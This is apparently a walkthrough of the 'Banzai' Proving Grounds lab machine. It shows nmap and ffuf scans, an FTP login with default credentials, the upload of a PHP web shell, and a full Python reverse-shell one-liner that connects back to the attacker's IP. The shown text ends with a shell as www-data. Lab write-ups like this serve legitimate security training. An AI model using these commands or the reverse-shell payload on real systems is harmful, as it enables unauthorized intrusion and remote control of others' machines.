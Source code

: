 First start with nmap scan 

`nmap -sC -sV -T4 -oN nmap.txt <IP> -p- -Pn`

```
# Nmap 7.93 scan initiated Tue Dec 27 18:39:51 2022 as: nmap -sC -sV -T4 -oN fullmap.txt -Pn -p- 192.168.218.56
Nmap scan report for banzai.offseclabs.com (192.168.218.56)
Host is up (0.20s latency).
Not shown: 65528 filtered tcp ports (no-response)
PORT     STATE  SERVICE    VERSION
20/tcp   closed ftp-data
21/tcp   open   ftp        vsftpd 3.0.3
22/tcp   open   ssh        OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
| ssh-hostkey: 
|   2048 ba3f6815288636497b4a84226815ccd1 (RSA)
|   256 2dec3f7831c3d0345e3fe76b77b56109 (ECDSA)
|_  256 4f615cccb01fbeb4eb8f1c897104f0aa (ED25519)
25/tcp   open   smtp       Postfix smtpd
|_smtp-commands: banzai.offseclabs.com, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8
| ssl-cert: Subject: commonName=banzai
| Subject Alternative Name: DNS:banzai
| Not valid before: 2020-06-04T14:30:35
|_Not valid after:  2030-06-02T14:30:35
|_ssl-date: TLS randomness does not represent time
5432/tcp open   postgresql PostgreSQL DB 9.6.4 - 9.6.6 or 9.6.13 - 9.6.19
8080/tcp open   http       Apache httpd 2.4.25
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: 403 Forbidden
8295/tcp open   http       Apache httpd 2.4.25 ((Debian))
|_http-title: Banzai
|_http-server-header: Apache/2.4.25 (Debian)
Service Info: Hosts:  banzai.offseclabs.com, 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Dec 27 18:52:32 2022 -- 1 IP address (1 host up) scanned in 761.19 seconds
```

Nice got some interesting ports open, first start by enumerating port 21.

![image](https://user-images.githubusercontent.com/87468669/209782893-a27f371b-1316-42fb-886a-458855b50f0b.png)

Tried loggin ftp with default creds like admin:admin and it worked, and i was able to put a file in the ftp directory, next let's enumerate port 8295 which is http service.

![image](https://user-images.githubusercontent.com/87468669/209783288-9829763c-4517-418d-85c2-e2424a66689b.png)

Checking page source was nothing sus in it, let's burst hidden dirs...

```
┌──(n16hth4wk㉿n16hth4wk-sec)-[~/Documents/PGP/Banzai]
└─$ ffuf -u "http://192.168.108.56:8295/FUZZ" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -fc 403 -fs 0,23315 -e .txt,.php,.bak,.zip,.js 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.108.56:8295/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Extensions       : .txt .php .bak .zip .js 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response status: 403
 :: Filter           : Response size: 0,23315
________________________________________________

img                     [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 201ms]
css                     [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 1036ms]
lib                     [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 641ms]
js                      [Status: 301, Size: 320, Words: 20, Lines: 10, Duration: 191ms]
shell.php               [Status: 200, Size: 233, Words: 9, Lines: 12, Duration: 194ms]
contactform             [Status: 301, Size: 329, Words: 20, Lines: 10, Duration: 189ms]
```

Great as seen above the ftp server was connected to this web server's directory, we can see the shell file that was uploaded earlier.

![image](https://user-images.githubusercontent.com/87468669/209784201-bc5d2705-ea4f-4476-9cc9-2846af9424a5.png)

Checking the shell.php file i uploaded, i got an RCE, so let's get a reverse shell. Fire up ncat listener

![image](https://user-images.githubusercontent.com/87468669/209784622-9c7d56ac-d9fc-46be-b13c-3b4a65e18c2b.png)

reverse shell payload ready

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.49.108",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

![image](https://user-images.githubusercontent.com/87468669/209784859-bc6ce987-f54d-4f41-b3bc-75f077c3ecd7.png)

ran the reverse shell payload.

![image](https://user-images.githubusercontent.com/87468669/209784972-9680b912-e5e3-4416-a57b-b95f95b10889.png)

Boom I'm in got a reverse shell as user www-data.
